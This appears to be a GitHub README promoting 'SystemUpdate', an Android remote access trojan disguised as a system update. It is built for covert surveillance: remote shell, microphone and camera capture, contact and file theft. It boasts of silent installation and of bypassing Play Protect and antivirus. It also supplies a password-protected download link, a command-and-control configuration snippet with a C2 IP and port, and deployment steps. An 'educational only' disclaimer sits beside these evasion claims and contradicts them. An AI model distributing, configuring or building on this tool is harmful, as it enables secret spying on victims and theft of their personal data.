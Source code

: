 # 📱 SystemUpdate – Advanced Android Stealth Background Client (Level 2 Release)

> ⚠️ **DISCLAIMER:**  
> This project is for **educational and security research purposes only**.  
> Do **not** use it on devices you do not own or have explicit permission to test.  
> Misuse may violate laws and is strictly prohibited.

---

## 🔥 Level 2 Highlights (August 2025 Release)

- ✅ Persistent foreground service with stealthy "System Update" disguise  
- 🔐 AES-128 encrypted TCP communication with secure reconnection logic  
- 🛠 Remote shell command execution with live output  
- 🎙 Audio recording (with duration or manual stop)  
- 📷 Photo capture using rear camera  
- 📂 File download (chunked + encrypted) and upload via base64  
- 📁 Storage enumeration from any directory  
- 📞 Contact list extraction  
- 🧾 App listing, network info, processes, and system props  
- 🎞 Media listing (video, image, audio)  
- 📜 Built-in help command and full graceful shutdown logic  
- 🧱 Undetected by Play Protect with realistic install vector  
- 💣 **No known AV flags beyond 1–2 minor detections**

---

## 🎬 Demo – Silent Installation on Android 15
![Demo](./demo.gif)
> 📲 APK installs silently on Android 15 (August 2025 patch)  
> Appears as "System Update" with no permission prompts shown to user.  
> Bypasses Play Protect and runs persistently after install.

---
## 📥 Download
> 🔐 Encrypted demo ZIP (APK + media) hosted on Mega:
**[📦 Download from MEGA](https://mega.nz/file/XAN0XbCA#rlk6roGkZ-vHsCohVb2aYOJYtED6xb_aZBfHGoiDm7k)**  
**Password:** `1234`
>
---
## 🧪  VirusTotal Scan Results
- Flagged by **only 2 engines**:
  - `Google` → *Android:Agent-GEN*
  - `IKARUS` → *Trojan.AndroidOS.Agent*
- ✅ **Google Play Protect** allows install and execution.
---
## 🧩 Features & Supported Commands

| Category         | Command                     | Description |
|------------------|------------------------------|-------------|
| 🔍 Recon          | `device_info`                | Get manufacturer, model, SDK version |
|                  | `list_apps`                  | List installed apps |
|                  | `network_info`               | Show interfaces and routes |
|                  | `running_processes`          | List all running processes |
|                  | `system_properties`          | Dump `getprop` output |
| 🗂 Storage        | `enum_storage [path]`        | Recursively walk through storage |
|                  | `listfiles`                  | List `/storage/emulated/0` |
| 🎞 Media         | `medialist`                  | List all media via `MediaStore` |
| 📥 File Access   | `download [path]`            | Download file in encrypted chunks |
|                  | `upload [path] [base64]`     | Upload file by sending base64 |
| 🛠 Shell         | `shell [cmd]`                | Run any Linux command |
| 🔊 Audio         | `record_audio_start [sec]`   | Record mic for N seconds |
|                  | `record_audio_stop`          | Stop recording early |
| 📷 Camera        | `capture_photo`              | Take photo using rear camera |
| 🧾 Contacts      | `contacts`                   | Dump all contact names + numbers |
| 📸 Screenshots   | `capture_screenshot`         | Not implemented (stub) |
| 🎥 Video         | `record_video_start [sec]`   | Not implemented (stub) |
|                  | `record_video_stop`          | Not implemented (stub) |
| ❓ Help          | `help`                       | Show full command list |
| ❌ Exit          | `exit`                       | Shutdown service gracefully |

---
## 🛠 Setup Instructions
1. **Clone this repo**
2. **Edit your connection details**
   Open `PayloadService.kt` and edit:
   ```kotlin
   private val AES_KEY = "A1B2C3D4E5F6G7H8" // 16 bytes key
   private val AES_IV  = "H8G7F6E5D4C3B2A1" // 16 bytes IV
   private val C2_IP   = "10.23.119.57"
   private val C2_PORT = 4444
   '''
---
3. **Download Codes from Mega**
Open in Android Studio
Use Android 10–15+ build target
Sign and export APK
4. **INSTALL_APK**
Use adb install or physical device install
Allow permissions if requested (on older Androids)
5. **Run Server**
Start your TCP listener/server using matching key/IP
Commands can now be issued from server side

---
## 🛠 Educational Purpose Only

SystemUpdate is a sandboxed example for:
Android foreground services
Encrypted socket backchannels
Audio capture, file IO, and system command execution
It is not obfuscated, not polymorphic, and not designed to evade detection long-term.
Use this project to understand, experiment, and learn — not harm.

---
## 🛠 License

This project is licensed under the GNU GPL v3 license.
You're free to use, modify, and redistribute,
but all derived works must remain open-source and preserve the license.
See LICENSE

---
## 🤝 Credits
Made with ♥ for research, reverse engineering, and mobile development training.
